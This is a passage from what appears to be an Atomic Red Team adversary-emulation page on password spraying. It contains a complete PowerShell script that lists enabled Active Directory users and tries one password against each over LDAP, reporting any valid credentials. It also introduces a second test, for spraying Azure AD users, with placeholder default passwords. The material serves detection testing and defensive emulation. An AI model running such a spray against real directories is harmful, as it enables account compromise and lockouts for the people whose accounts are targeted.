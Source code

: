 #### Attack Commands: Run with `powershell`!

```powershell
if ("#{auth}".ToLower() -NotIn @("ntlm","kerberos")) {
  Write-Host "Only 'NTLM' and 'Kerberos' auth methods are supported"
  exit 1
}

$DomainUsers = Get-ADUser -LDAPFilter '(&(sAMAccountType=805306368)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' -Server #{domain} | Select-Object -ExpandProperty SamAccountName

[System.Reflection.Assembly]::LoadWithPartialName("System.DirectoryServices.Protocols") | Out-Null
$di = new-object System.DirectoryServices.Protocols.LdapDirectoryIdentifier("#{domain}",389)

$DomainUsers | Foreach-Object {
  $user = $_
  $password = '#{password}'

  $credz = new-object System.Net.NetworkCredential($user, $password, "#{domain}")
  $conn = new-object System.DirectoryServices.Protocols.LdapConnection($di, $credz, [System.DirectoryServices.Protocols.AuthType]::#{auth})
  try {
    Write-Host " [-] Attempting ${password} on account ${user}."
    $conn.bind()
    # if credentials aren't correct, it will break just above and goes into catch block, so if we're here we can display success
    Write-Host " [!] ${user}:${password} are valid credentials!"
  } catch {
    Write-Host $_.Exception.Message
  }
}
Write-Host "End of password spraying"
```

<br/>
<br/>

## Atomic Test #4 - Password spray all Azure AD users with a single password

Attempt to brute force all Azure AD users with a single password (called "password spraying") via AzureAD Powershell module.
Valid credentials are only needed to fetch the list of Azure AD users.

**Supported Platforms:** Azure-ad

**auto_generated_guid:** a8aa2d3e-1c52-4016-bc73-0f8854cfa80a

#### Inputs:

| Name           | Description                                                                                                                                                                | Type   | Default Value           |
| -------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------ | ----------------------- |
| password       | Single password we will attempt to auth with (if you need several passwords, then it is a bruteforce so see T1110.001)                                                     | string | P@ssw0rd!               |
| valid_username | Valid username to retrieve Azure AD users. We encourage users running this atomic to add a valid microsoft account domain; for eg <valid_test_user>@<valid_ms_account.com> | string | bruce.wayne@contoso.com |
| valid_password | Valid password to authenticate as valid_username in the <valid_ms_account>                                                                                                 | string | iamthebatman            |

